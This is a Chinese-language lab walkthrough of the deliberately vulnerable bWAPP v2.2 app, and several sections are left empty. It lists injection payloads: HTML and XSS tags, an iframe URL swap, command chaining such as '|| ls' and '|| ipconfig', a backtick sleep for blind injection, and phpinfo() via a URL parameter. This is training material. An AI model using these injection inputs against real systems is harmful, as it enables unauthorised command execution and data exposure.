


# bWAPP v2.2靶场全解

## HTML Injection - Reflected (GET)

### low

这道题也可以当成xss来做，都是一样的


在一个框中输入payload，另一个框输入任意东西即可：


payload：反正就是有关html的标签他都可以插进去

```
<button onclick=javascript:alert(1)>Fisrt name</button>
```

```
<a href="http://www.baidu.com">Fisrt name</a>
```


都是成功的


### medium


### high


## HTML Injection - Reflected (POST)

### low

反正就是有关html的标签他都可以插进去，payload：

```
<button onclick=javascript:alert(1)>Fisrt name</button>
```

```
<h1 style=color:green>我是大傻逼！</h1>
```


### medium


### high


## HTML Injection - Reflected (URL)

### low

需要进行抓包修改

```
https://bwapp.bachang.org/htmli_current_url.php?a=<h1>123</h1>
```


然后就可以了


### medium


### high


## HTML Injection - Stored (Blog)


### low

拿第一个hack的payload提交都是可以的，因为是low，没有做任何限制，无限制相信用户的输入

```
<button onclick=javascript:alert(1)>Fisrt name</button>
```

```
<a href="http://www.baidu.com">Fisrt name</a>
```

```

```

如下：


### medium


### high


## iFrame Injection

### low

初始链接如下：

```
https://bwapp.bachang.org/iframei.php?ParamUrl=robots.txt&ParamWidth=250&ParamHeight=250
```

然后`F12`查看到`iframe`标签的变化


那么构造payload如下：

```
https://bwapp.bachang.org/iframei.php?ParamUrl=https://www.baidu.com&ParamWidth=700&ParamHeight=400
```


当然，读取得了`robots.txt`，理应也是可以读取站内的所有文件

如：

```
index.php
login.php
readme.md
```


### medium


### high


## LDAP Injection (Search) 未


### low


### medium


### high


## Mail Header Injection (SMTP) 未


### low


### medium


### high


## OS Command Injection

### low

经典`DNS lookup`

```
www.nsa.gov || ls
```




```
www.nsa.gov || ipconfig
```


### medium

还是一样的payload可以成功

```
www.nsa.gov || ls
```


### high


## OS Command Injection - Blind

### low

得写脚本进行爆破

人工测试存在盲注

payload:

```
127.0.0.1`sleep 5`
```


延时


## PHP Code Injection

### low

```
https://bwapp.bachang.org/phpi.php?message=phpinfo();
```



